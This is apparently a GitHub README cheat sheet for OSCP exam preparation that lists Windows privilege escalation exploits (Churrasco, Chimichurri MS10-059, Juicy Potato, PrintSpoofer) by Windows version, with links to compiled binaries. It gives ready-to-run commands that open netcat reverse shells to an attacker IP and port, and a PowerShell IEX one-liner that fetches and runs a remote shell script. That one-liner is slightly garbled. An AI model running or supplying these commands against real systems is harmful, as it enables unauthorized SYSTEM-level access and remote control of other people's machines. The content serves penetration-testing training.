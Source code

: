 # OSCP-TOOLS

# Windows Server 2003 old windows :

--> If SEImpersonate is Enabled use following exploit - https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
--> Upload nc binary and execute following command.

~ Command : .\churrasco.exe -d "nc.exe <attacker-ip> <attacker-port> -e cmd.exe"

# Windows Server 2008 R2 DataCenter :

--> If 6.1.7600 N/A Build 7600 version then use following exploit - https://github.com/egre55/windows-kernel-exploits/blob/master/MS10-059:%20Chimichurri/Compiled/Chimichurri.exe

# Microsoft Windows 7 Enterprise :

--> If 6.1.7600 N/A Build 7600 version the use following exploit - https://github.com/egre55/windows-kernel-exploits/blob/master/MS10-059:%20Chimichurri/Compiled/Chimichurri.exe

~ Command : exploit.exe <attacker-ip> <attacker-port>

# Juicy Potato attacks :

$_Affected_Windows_Verisons

    Windows_10_Enterprise
    Windows_10_Pro
    Windows_7_Enterprise
    Windows_8.1_Enterprise
    Windows_Server_2008_R2_Enterprise
    Windows_Server_2012_Datacenter

📌 Juicy Potato does not work for Windows Server 2019 and Windows 10 versions 1809 and higher. - https://github.com/ohpe/juicy-potato/releases

--> For CLSID - http://ohpe.it/juicy-potato/CLSID/

~ Command : juicypotato.exe -l 1337 -t * -p "C:\Windows\Tasks\nc.exe IP PORT -e cmd.exe"
    TIP : If upper command doesn't work then try to do the following thing:
    1. Get ready with the nishang reverse shell script edit it with necessary data.
    Then create a bat file on any machine with IEX file downloader one-liner.--- echo powershell -c "IEX (new-object net.webclient).('http://10.10.16.5/shell.ps1')" > shell.bat ---
    2. Then host a python web server and download the .bat file in target machine. After downloading run it as follows:
    3. .\jp.exe -t * -l 1337 -p shell.bat (This will give shell as NT Authority\System) If this doesn't work then also change the CLSID using -c parameter.

# PrinSpoofer Exploit on SEImpersonate : 

--> If the host is Windows Server 2016, 2019 or Windows 10 use this exploit if it has SEImpersoante permission - https://github.com/dievus/printspoofer/blob/master/PrintSpoofer.exe
